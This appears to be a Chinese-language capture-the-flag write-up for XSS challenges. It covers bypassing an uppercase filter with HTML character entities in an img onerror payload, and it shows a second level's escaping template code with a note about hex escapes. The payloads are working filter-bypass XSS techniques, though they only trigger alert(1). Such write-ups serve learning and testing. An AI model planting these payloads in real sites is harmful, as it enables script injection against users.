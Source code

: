 把输入的小写字母全部转化为大写

html标签可以直接闭合，因为html对大小写不敏感，关键在于alert(1)，因为js对大小写敏感

可以利用html字符实体，html字符实体通过html转化为小写的js代码，并不会被js转化为大写

利用img和onerror，图片加载错误时，html字符实体通过html转化为alert(1)并执行

Payload

```
</script><img src=1 onerror = &#97&#108&#101&#114&#116(1)>
```

Output

```
<script>console.log("</SCRIPT><IMG SRC=1 ONERROR = &#97&#108&#101&#114&#116(1)>")</script>
```



## Template

```javascript
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g, 
        function(_, n) { 
           return htmlEscape(args[n]);
         });
  }
  
  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
      <script>                                       \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '<a href=#>{name}</a>';       \n\
      <\/script>                                     \n\
    ",
    { name : s }
  );
}
```

`< > & " '`会被转义，现在需要闭合标签，没有尖括号很难受

但是它没有转义反斜杠，可以通过16进制构造
